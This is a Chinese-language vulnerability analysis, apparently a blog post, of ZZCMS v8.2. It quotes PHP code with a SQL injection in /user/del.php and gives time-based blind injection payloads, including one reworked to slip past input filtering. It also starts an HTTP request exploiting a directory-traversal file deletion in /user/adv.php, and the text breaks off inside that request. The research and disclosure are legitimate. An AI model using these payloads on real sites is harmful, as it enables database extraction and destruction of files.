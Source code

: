 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7F15r4KFQESg4w0KwnBst32DG9ZsdeUg4YoHenMHFJmA4uounoWaKlB9jrRQf2EIfScKHPdAj6Wdg/640?wx_fmt=png&from=appmsg "")  
  
那么最后剩下的 3 处 sql 语句都无法利用，继续往下看。  
```
\# "/user/check.php"文件
query("UPDATE zzcms_user SET totleRMB = totleRMB+".jf_login." WHERE username='".$username."'");//登录时加积分
query("insert into zzcms_pay (username,dowhat,RMB,mark,sendtime) 
values('".$username."',' 
每 天 登 录 用 户 中 心 送 积 分
','+".jf_login."','','".date('Y-m-d H:i:s')."')");

query("UPDATE zzcms_user SET lastlogintime = '".date('Y-m-d H:i:s')."' 
WHERE username='".$username."'");//更新最后登录时间
```  
  
  
在代码审查过程中，我们在第130行左右发现了一个潜在的安全问题。具体来说，有一个SQL语句直接将tablename变量拼接到了查询中，而这个tablename变量可以直接通过POST方法获取。由于该变量未经任何过滤或验证，直接用于SQL语句的拼接，这可能导致SQL注入漏洞。  
```
# "/user/del.php"文件
if (strpos($id,",")>0)
 
$sql="select id,editor from ".$tablename." where id in (". $id .")";
else
$sql="select id,editor from ".$tablename." where id ='$id'";
作者 vr_system 于 2018-02-07 发表了 ZZCMS v8.2 最新版 SQL 注入漏洞
(http://www.freebuf.com/vuls/161888.html) 一文，文中使用的 payload 为：
id=1&tablename=zzcms_answer where id = 1 and 
if((ascii(substr(user(),1,1)) =121),sleep(5),1)#
```  
  
  
在进行安全测试时，我们注意到一个特定的payload依赖于zzcms_answer表的存在才能被利用。如果这个表是空的或者不存在，那么payload将无法执行预期的攻击。  
  
为了增强payload的通用性和适应性，我们需要对其进行改进。以下是改进后的payload示例，同时考虑到POST数据经过addslashes()、htmlspecialchars()、trim()三个函数的处理，我们不能使用大于号>和小于号<。  
```
id=1&tablename=zzcms_answer where id=999999999 union select 1,2 and if((ascii(substr(user(),1,1)) = 114),sleep(3),1)#
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7F15r4KFQESg4w0KwnBst32rLJUKxicp3eRX7Xg2PxPvpwR5g4NcIuBxL4XCqiaAaIia2sJpCxmscohw/640?wx_fmt=png&from=appmsg "")  
#### 任意文件删除漏洞  
  
  
在代码审查过程中，我们在第80多行处发现了一个安全漏洞，涉及f变量。该变量是通过将"../"与oldimg直接拼接得到的，没有对.和/字符进行过滤，这可能导致跨目录文件删除（也称为  
目录遍历攻击）。根据代码逻辑，只要确保img变量不等于oldimg，并且$action变量等于"modify"，就可以触发这个漏洞。  
  
"/user/adv.php"文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7F15r4KFQESg4w0KwnBst32icJhCM6zVibSNW1WbqkdTw7aYpiagoJFWJUN7BOraA5rMiaDgzaubBapWA/640?wx_fmt=png&from=appmsg "")  
  
  
payload 如下：  
```
POST /user/adv.php?action=modify HTTP/1.1
Host: 192.168.1.7
Content-Length: 149
Cache-Control: max-age=0
Origin: http://192.168.1.7
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, 
like Gecko) Chrome/62.0.3202.62 Safari/537.36
Accept: text/html,application/xhtml 
xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.1.7/user/adv.php
Accept-Encoding: gzip, deflate
```